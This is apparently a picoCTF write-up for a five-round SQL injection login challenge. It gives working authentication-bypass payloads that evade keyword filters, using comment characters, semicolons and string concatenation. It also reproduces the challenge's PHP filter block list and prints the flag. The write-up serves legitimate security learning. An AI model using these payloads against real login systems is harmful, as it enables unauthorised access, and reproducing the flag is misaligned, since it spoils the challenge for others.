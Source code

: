 Put any username and password and you can see the SQL query.

<http://jupiter.challenges.picoctf.org:19593/filter.php> tells us which words is banned.

*Notes:*

Here is some common way to comment in SQL:
1. #
2. --
3. //
4. /**/
5. ; %00

### Round 1

Here is the filter shown in <http://jupiter.challenges.picoctf.org:19593/filter.php>
```sql
or
```

For the detail of the banned "OR" method, see <https://owasp.org/www-community/attacks/SQL_Injection>

let's use another methods.

We can change the username into `admin' --`, so the original SQL query becomes:

```sql
SELECT * FROM users WHERE username='admin' --' AND password='a'
```

which comments out the password part.

### Round 2

Here is the filter shown in <http://jupiter.challenges.picoctf.org:19593/filter.php>
```sql
or and like = --
```

Use ; to force break the query. 

Our username input is: `admin' ;`

and the SQL query becomes:

```sql
SELECT * FROM users WHERE username='admin' ;' AND password='a'
```

### Round 3


Here is the filter shown in <http://jupiter.challenges.picoctf.org:19593/filter.php>
```sql
   or and = like > < --
```

Note that Space is also in this filter. Use "View page Sourse" to see the space. 

So we can just erase the block in previous round: `admin';`, which gives us

```sql
SELECT * FROM users WHERE username='admin';' AND password='a'
```

### Round 4

They banned the `admin` now. Also, our `;` doess not work in this question.

Here is the filter shown in <http://jupiter.challenges.picoctf.org:19593/filter.php>
```sql
or and = like > < -- admin
```

Luckly, SQL have some function to concatenate string: `CONCAT`, `+`, `||`

After a few trial, we find that `||` worked.

Our payload is: `ad'||'min'/*`

```sql
SELECT * FROM users WHERE username='ad'||'min'/*' AND password='a'
```

### Round 5

Here is the filter shown in <http://jupiter.challenges.picoctf.org:19593/filter.php>
```sql
 or and = like > < -- union admin```
```

Previous one still work.

```sql
SELECT * FROM users WHERE username='ad'||'min'/*' AND password='a'
```

After finish all 5 rounds, we can finally see the filter php file:

```php
 <?php
session_start();

if (!isset($_SESSION["round"])) {
    $_SESSION["round"] = 1;
}
$round = $_SESSION["round"];
$filter = array("");
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($round === 1) {
    $filter = array("or");
    if ($view) {
        echo "Round1: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 2) {
    $filter = array("or", "and", "like", "=", "--");
    if ($view) {
        echo "Round2: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 3) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--");
    // $filter = array("or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round3: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 4) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "admin");
    // $filter = array(" ", "/**/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round4: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 5) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "union", "admin");
    // $filter = array("0", "unhex", "char", "/*", "*/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round5: ".implode(" ", $filter)."<br/>";
    }
} else if ($round >= 6) {
    if ($view) {
        highlight_file("filter.php");
    }
} else {
    $_SESSION["round"] = 1;
}

// picoCTF{y0u_m4d3_1t_cab35b843fdd6bd889f76566c6279114}
?> 
```
